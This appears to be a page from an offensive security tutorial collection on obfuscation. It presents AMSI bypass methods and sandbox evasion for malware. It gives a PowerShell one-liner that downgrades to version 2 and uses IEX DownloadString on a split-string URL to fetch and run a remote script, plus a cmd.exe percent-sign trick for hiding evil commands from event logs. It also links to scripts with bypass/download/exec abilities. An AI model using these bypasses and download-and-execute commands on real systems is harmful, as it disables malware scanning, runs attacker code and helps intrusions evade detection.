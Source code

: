 - Oneliner AMSI bypass<br />

      powershell.exe -version 2 IEX (New-Object Net.WebClient).DownloadString('ht'+'tp:'+'//19'+'2.16'+'8.1.71/hello.ps1')
      

![AMSI Bypass](http://i68.tinypic.com/2hd88yg.jpg)

[AMSI Downgrade check applied to AMSI-Downgrade.ps1 (just check if vuln its present)](https://pastebin.com/qkkq5bZy)<br />

---

- Reflection - Matt Graeber's method<br />

      Matt Graeber (@mattifestation) tweeted an awesome one line AMSI bypass. Like many other things by
      Matt, this is my favorite. It doesn't need elevated shell and there is no notification to the user.

<br />

![AMSI Bypass](http://i65.tinypic.com/15hzzvb.png)

[@mattifestation reflection technic applied to AMSI-Reflection.ps1 with Bypass/download/exec abilities](https://pastebin.com/THJQvHnU)<br />

---

- @danielbohannon **escaping percent** signs bug (EventVwr.exe)

      Daniel Bohannon disclosure a few days ago (19 march 2018) one AMSI obfuscation technic that
      relays on an escaping bug with percent signs in Sysmon EID 1's CommandLine field that is
      rendering incorrect data when viewed with EventVwr.exe.

<br />

      cmd.exe /c "echo PUT_EVIL_COMMANDS_HERE||%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1%1"

![powershell obfuscation](http://i.cubeupload.com/OzA5WV.jpg)
![powershell obfuscation](http://i.cubeupload.com/MpI26u.png)

---

[0] [Glosario (Index)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md#glosario-index)<br />

---

<br /><br /><br /><br />

## Bypass the scan engine (sandbox)

<br />

      [ detecting the sandbox environment. ] Most sandbox's are using hostnames like Sandbox,
      Maltest, Malware, malsand, ClonePC. With simple tricks like hostname, mac address or
      process detection, malware can detect if its working in an sandbox environment.
      Sandbox evasion capabilities allow malware to stay undetected during sandbox analysis.
